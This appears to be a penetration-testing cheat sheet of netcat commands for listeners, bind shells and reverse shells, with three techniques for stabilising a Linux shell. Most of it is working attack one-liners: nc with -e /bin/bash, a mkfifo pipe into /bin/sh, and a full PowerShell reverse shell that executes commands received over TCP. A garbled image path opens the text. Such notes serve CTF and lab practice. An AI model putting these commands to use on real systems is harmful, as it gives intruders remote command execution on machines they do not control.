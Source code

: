 ```nc -lvnp 192.168.1.1 8181``` : Create listener 

```nc <LOCAL-IP> <PORT> -e /bin/bash``` : Execute bash on connection 

```nc 192.168.1.2 8181``` : Bind to listener @ 192.168.1.2:8181

```nc -lvnp <PORT> -e /bin/bash``` : Execute bash on connection to listener. Can be used as bind shell

note: -e is not included in most versions of netcat due to its insecurity. On windows can use a static binary, while on linux we can use.

```mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``` : bind shell

```mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``` : reverse shell
  
```powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"``` : powershell reverse shell

Stabilizing netcat reverse shell on linux.
technique 1.

1. ```python -c 'import pty;pty.spawn("/bin/bash")'``` : replace python with python2 or python3 where necessary
2. ```export TERM=xterm``` : this will give us access to term commands such as clear
3. background the shell using Ctrl + Z. and then do ```stty raw -echo; fg``` : turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

technique 2.
with rlwrap listener(not installed by default)
1. background the shell using Ctrl + Z. and then do ```stty raw -echo; fg``` : turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

technique 3.
transfer socat static compiled binary to target machine. (wget on linux or invoke-webrequest on windows)

change your terminal tty size
open another terminal and run ```stty -a```. Note down the values for "rows" and columns:

based on output values type in:

stty rows <number> 
  
stty cols <number>
